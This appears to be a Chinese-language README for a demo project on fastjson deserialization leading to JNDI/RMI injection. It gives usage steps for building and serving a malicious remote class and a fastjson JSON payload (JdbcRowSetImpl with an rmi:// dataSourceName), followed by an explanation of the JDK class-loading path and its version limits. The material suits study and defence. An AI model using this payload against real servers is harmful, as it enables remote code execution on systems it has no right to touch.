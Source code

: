 # 使用方式
1. 编译恶意文类：javac RemoteEvilObject.java 
2. 打包：jar cvf  remote.jar  RemoteEvilObject.class
2. 运行HTTP服务器python -m SimpleHTTPServer 8086
3. 运行 JndiServer.main
4. 使用fastjson的poc即可触发漏洞
```json
{
  "aaa": {"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},
  "bbb": {"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://127.0.0.1:1099/anything","autoCommit":true}
}
```

# 说明
服务端将一个`ReferenceWrapper`对象绑定到`anything`上，这个对象中`Reference`指向了一个远端地址。
当客户端执行`InitialContext.lookup()`时，会进入`com.sun.jndi.rmi.registry.RegistryContext.decodeObject`，
进而执行`NamingManager.getObjectInstance`获取`Reference`实例对象，本例中就是`RemoteEvilObject`，
进而调用`javax.naming.spi.NamingManager.getObjectFactoryFromReference()`由于本地ClassPath中没有这个类，
就会去远端下载（默认下载到的是jar包，所以需要在第2步中进行打包为jar），
下载后就会根据这个类创建对象，从而触发漏洞
```java
public class NamingManager {

    /**
     * Retrieves the ObjectFactory for the object identified by a reference,
     * using the reference's factory class name and factory codebase
     * to load in the factory's class.
     * @param ref The non-null reference to use.
     * @param factoryName The non-null class name of the factory.
     * @return The object factory for the object identified by ref; null
     * if unable to load the factory.
     */
    static ObjectFactory getObjectFactoryFromReference(
        Reference ref, String factoryName)
        throws IllegalAccessException,
        InstantiationException,
        MalformedURLException {
        Class<?> clas = null;

        // 尝试从本地获取Class
        try {
             clas = helper.loadClass(factoryName);
        } catch (ClassNotFoundException e) {
            // ignore and continue
            // e.printStackTrace();
        }
        // All other exceptions are passed up.

        // 本地ClassPath中找不到这个类，则从ref中设置的codebase中读取
        String codebase;
        if (clas == null &&
                (codebase = ref.getFactoryClassLocation()) != null) {
            try {
                clas = helper.loadClass(factoryName, codebase);
            } catch (ClassNotFoundException e) {
            }
        }

        return (clas != null) ? (ObjectFactory) clas.newInstance() : null;
    }
}
```
下载的调用栈信息如下
```text
sun.net.www.protocol.http.Handler.openConnection(Handler.java:62)
sun.net.www.protocol.http.Handler.openConnection(Handler.java:57)
java.net.URL.openConnection(URL.java:971)
sun.net.www.protocol.jar.JarURLConnection.<init>(JarURLConnection.java:84)
sun.net.www.protocol.jar.Handler.openConnection(Handler.java:41)
java.net.URL.openConnection(URL.java:971)
sun.misc.URLClassPath$JarLoader.getJarFile(URLClassPath.java:708)
sun.misc.URLClassPath$JarLoader.access$600(URLClassPath.java:587)
sun.misc.URLClassPath$JarLoader$1.run(URLClassPath.java:667)
sun.misc.URLClassPath$JarLoader$1.run(URLClassPath.java:660)
java.security.AccessController.doPrivileged(Native Method)
sun.misc.URLClassPath$JarLoader.ensureOpen(URLClassPath.java:659)
sun.misc.URLClassPath$JarLoader.<init>(URLClassPath.java:610)
sun.misc.URLClassPath$3.run(URLClassPath.java:362)
sun.misc.URLClassPath$3.run(URLClassPath.java:352)
java.security.AccessController.doPrivileged(Native Method)
sun.misc.URLClassPath.getLoader(URLClassPath.java:351)
sun.misc.URLClassPath.getLoader(URLClassPath.java:328)
sun.misc.URLClassPath.getResource(URLClassPath.java:194)
java.net.URLClassLoader$1.run(URLClassLoader.java:358)
java.net.URLClassLoader$1.run(URLClassLoader.java:355)
java.security.AccessController.doPrivileged(Native Method)
java.net.URLClassLoader.findClass(URLClassLoader.java:354)
java.lang.ClassLoader.loadClass(ClassLoader.java:423)
java.net.FactoryURLClassLoader.loadClass(URLClassLoader.java:789)
java.lang.ClassLoader.loadClass(ClassLoader.java:356)
java.lang.Class.forName0(Native Method)
java.lang.Class.forName(Class.java:266)
com.sun.naming.internal.VersionHelper12.loadClass(VersionHelper12.java:85)
javax.naming.spi.NamingManager.getObjectFactoryFromReference(NamingManager.java:158) 
javax.naming.spi.NamingManager.getObjectInstance(NamingManager.java:319)
com.sun.jndi.rmi.registry.RegistryContext.decodeObject(RegistryContext.java:456)
com.sun.jndi.rmi.registry.RegistryContext.lookup(RegistryContext.java:120)
com.sun.jndi.toolkit.url.GenericURLContext.lookup(GenericURLContext.java:203)
javax.naming.InitialContext.lookup(InitialContext.java:411)
JndiClient.main(JndiClient.java:28)
```

# 限制
利用条件如下：

1. RMI客户端的上下文环境允许访问远程Codebase。
2. 属性 java.rmi.server.useCodebaseOnly 的值必需为false。

    然而从JDK 6u45、7u21开始，java.rmi.server.useCodebaseOnly 的默认值就是true。
    当该值为true时，将禁用自动加载远程类文件，仅从CLASSPATH和当前VM的java.rmi.server.codebase 指定路径加载类文件。
    使用这个属性来防止客户端VM从其他Codebase地址上动态加载类，增加了RMI ClassLoader的安全性。

**这也是为什么RMI的方式并不是那么通用的原因**

# 参考
[关于 JNDI 注入](https://paper.seebug.org/417/)
[如何绕过高版本 JDK 的限制进行 JNDI 注入利用](https://paper.seebug.org/942/)